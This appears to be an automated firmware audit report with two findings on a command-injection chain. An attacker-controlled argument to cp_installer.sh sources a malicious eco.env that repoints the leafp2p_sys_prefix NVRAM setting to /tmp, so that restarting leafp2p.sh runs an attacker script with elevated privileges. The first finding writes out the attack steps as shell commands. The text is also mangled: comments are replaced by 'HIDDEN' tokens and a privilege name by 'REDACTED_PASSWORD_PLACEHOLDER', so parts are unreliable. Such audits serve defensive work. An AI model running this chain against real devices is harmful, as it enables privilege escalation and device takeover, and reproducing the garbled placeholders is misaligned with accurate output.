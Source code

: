 ### ExploitChain-cp_installer-env-injection-to-leafp2p-rce-verified

- **File/Directory Path:** `etc/init.d/leafp2p.sh`
- **Location:** `usr/sbin/cp_installer.sh:54-56 → etc/init.d/leafp2p.sh:8-12`
- **Risk Score:** 9.8
- **Confidence:** 8.75
- **Description:** Verified Attack Chain: Cross-file validation reveals an exploitation path where the environment injection point (cp_installer.sh) and RCE execution point (leafp2p.sh) are linked via NVRAM configuration. New technical detail: Malicious eco.env must include PATH export statements to ensure nvram command availability. Risk impact: Arbitrary command execution with REDACTED_PASSWORD_PLACEHOLDER privileges, estimated CVSS score 9.8.
- **Code Snippet:**
  ```
  // HIDDEN:
  // HIDDEN1: HIDDEN
  echo 'export PATH=$PATH:/usr/sbin' > /tmp/eco.env
  echo 'nvram set leafp2p_sys_prefix=/tmp' >> /tmp/eco.env
  
  // HIDDEN2: HIDDEN
  cp_installer.sh ... /tmp ...
  
  // HIDDEN3: HIDDEN（HIDDEN）
  /etc/init.d/leafp2p.sh restart
  ```
- **Keywords:** PATH_ECO_ENV=${3}, . ${PATH_ECO_ENV}/eco.env, leafp2p_sys_prefix, SYS_PREFIX, checkleafnets.sh
- **Notes:** Verified Attack Chain  

Associated Original Attack Chain ID: ExploitChain-cp_installer-env-injection-to-leafp2p-rce | Residual Risk: Service Restart Requires Additional Attack Surface

---
### ExploitChain-cp_installer-env-injection-to-leafp2p-rce

- **File/Directory Path:** `usr/sbin/cp_installer.sh`
- **Location:** `usr/sbin/cp_installer.sh:54-56 → etc/init.d/leafp2p.sh:8-12`
- **Risk Score:** 9.8
- **Confidence:** 7.75
- **Description:** Attack Chain: 1) Attacker controls the $3 parameter of cp_installer.sh, setting PATH_ECO_ENV to point to a malicious path. 2) Injects the command 'nvram set leafp2p_sys_prefix=/tmp' into ${PATH_ECO_ENV}/eco.env. 3) The script execution modifies NVRAM configuration. 4) When the leafp2p service restarts, it retrieves the leafp2p_sys_prefix value from the compromised NVRAM. 5) Executes the malicious script REDACTED_PASSWORD_PLACEHOLDER.sh with REDACTED_PASSWORD_PLACEHOLDER privileges. Trigger conditions: Controlling the $3 parameter + service restart mechanism.
- **Code Snippet:**
  ```
  // cp_installer.sh HIDDEN
  PATH_ECO_ENV=${3}
  if [ -r ${PATH_ECO_ENV}/eco.env ]; then
    . ${PATH_ECO_ENV}/eco.env  // HIDDEN: nvram set leafp2p_sys_prefix=/tmp
  fi
  
  // leafp2p.sh HIDDEN
  SYS_PREFIX=$(${nvram} get leafp2p_sys_prefix)  // HIDDEN/tmp
  CHECK_LEAFNETS=${SYS_PREFIX}/bin/checkleafnets.sh
  start() {
    ${CHECK_LEAFNETS} &  // HIDDENREDACTED_PASSWORD_PLACEHOLDER.sh
  ```
- **Keywords:** PATH_ECO_ENV=${3}, . ${PATH_ECO_ENV}/eco.env, nvram set leafp2p_sys_prefix, SYS_PREFIX=$(${nvram} get leafp2p_sys_prefix), ${CHECK_LEAFNETS} &
- **Notes:** Verification required: 1) Whether eco.env supports nvram commands 2) Leafp2p service restart mechanism 3) Writable status of /tmp directory

---